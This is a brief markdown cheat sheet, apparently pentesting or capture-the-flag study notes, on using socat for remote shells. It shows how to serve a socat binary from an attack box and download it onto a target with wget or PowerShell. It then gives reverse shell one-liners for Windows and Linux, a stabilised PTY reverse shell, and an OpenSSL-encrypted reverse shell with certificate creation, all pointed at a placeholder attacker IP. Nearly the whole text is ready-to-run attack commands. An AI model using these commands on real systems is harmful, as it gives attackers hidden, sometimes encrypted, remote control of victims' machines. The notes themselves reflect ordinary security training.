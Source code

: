 **dont forget to make socat executable!!!!!**
- download binary on attackbox [link](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true)
- run python server `sudo python3 -m http.server 80`
- download binary to target `wget <LOCAL-IP>/socat -O /tmp/socat`
- on windows `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\\\Windows\\temp\\socat.exe`
- `socat TCP-L:<port> -` listener
- `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes` windows
- `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"` linux
- stable reverse tty shell
	- ```socat TCP-L:<port> FILE:`tty`,raw,echo=0``` listener
	- `socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`on target 
- encryted shell
	- `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt` create cert
	- `cat shell.key shell.crt > shell.pem`create pem file
	- `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -` listener
	- `socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`on target